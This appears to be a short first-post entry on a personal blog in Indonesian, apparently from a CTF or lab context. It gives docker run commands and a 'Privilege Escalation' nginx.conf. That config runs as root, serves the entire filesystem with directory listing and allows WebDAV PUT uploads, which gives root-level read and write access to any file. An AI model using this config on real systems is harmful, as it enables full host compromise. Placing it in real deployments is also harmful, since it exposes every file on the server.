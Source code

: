 ```yaml
---
title: "The First"
date: 2023-12-23 22:00:00 +0700
categories: [random]
tags: [random]
image: 
    path: /assets/img/gojo-satoru.jpg
---
```


## Selamat Datang Cuy!!

ini post-an pertama saya, **K1zuko**.

## Run Docker

```bash
sudo systemctl start docker
docker build .
docker images
docker run -p 1337:1337 {image}
```

## Privilege Escalation
### nginx.conf
```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1338;
                root /;
                autoindex on;

                dav_methods PUT; # with dav_methods
        }
}
```